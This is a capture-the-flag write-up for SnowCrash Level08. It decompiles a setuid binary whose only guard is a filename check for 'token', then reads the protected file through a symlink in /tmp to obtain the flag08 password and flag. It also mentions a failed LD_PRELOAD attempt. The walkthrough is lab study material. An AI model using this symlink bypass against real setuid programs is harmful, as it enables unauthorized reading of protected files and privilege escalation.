 # Level08

## Walkthrough

We find a binary file `level08` with a `token` text file in the current home directory.

```bash
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ file level08 
level08: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```

As in the previous levels, the `level08` file has the **setuid** flag and is owned by **flag08**.  
We import the executable on our host machine with **SCP**.

```bash
host:~$ scp -P 4242 level08@localhost:level08 level08
```

We decompile the executable with **dogbolt**.

[Link to the decompiled output](https://dogbolt.org/?id=dd39ba2e-06a7-4e59-b781-7ddd00932474#Hex-Rays=121)

We check the **main()** function and figure out that the program:
- accepts arguments
- compares the first argument with the word "token" and exits if they match
- opens the file associated with the first argument, reads it and write the output on stdout

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+24h] [ebp-40Ch]
  size_t v5; // [esp+28h] [ebp-408h]
  char buf[1024]; // [esp+2Ch] [ebp-404h] BYREF
  unsigned int v7; // [esp+42Ch] [ebp-4h]

  v7 = __readgsdword(0x14u);
  if ( argc == 1 )
  {
    printf("%s [file to read]\n", *argv);
    exit(1);
  }
  if ( strstr(argv[1], "token") )
  {
    printf("You may not access '%s'\n", argv[1]);
    exit(1);
  }
  v4 = open(argv[1], 0);
  if ( v4 == -1 )
    err(1, "Unable to open %s", argv[1]);
  v5 = read(v4, buf, 0x400u);
  if ( v5 == -1 )
    err(1, "Unable to read fd %d", v4);
  return write(1, buf, v5);
}
```

Our first attempt to solve this level is to override the `strstr()` function, using `LD_PRELOAD`, in order to always return `false` and not exit early.  
But it appears that `LD_PRELOAD` can't be used with the **setuid** flag.

We try another solution, this time using symbolic links to bypass the condition because `strstr()` doesn't follow the symbolic link.

```bash
level08@SnowCrash:~$ mkdir /tmp/level08
level08@SnowCrash:~$ cd /tmp/level08
level08@SnowCrash:/tmp/level08$ ln -s ~/token symlink
level08@SnowCrash:/tmp/level08$ ls -la
total 0
drwxrwxr-x 2 level08 level08  60 Feb 10 16:31 .
d-wx-wx-wx 5 root    root    100 Feb 10 16:31 ..
lrwxrwxrwx 1 level08 level08  24 Feb 10 16:31 symlink -> /home/user/level08/token
level08@SnowCrash:/tmp/level08$ ~/level08 symlink 
quif5eloekouj29ke0vouxean
level08@SnowCrash:/tmp/level08$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Resources

- [What is LD_PRELOAD trick](https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick)
- [LD_PRELOAD with setuid binary](https://stackoverflow.com/questions/9232892/ld-preload-with-setuid-binary)
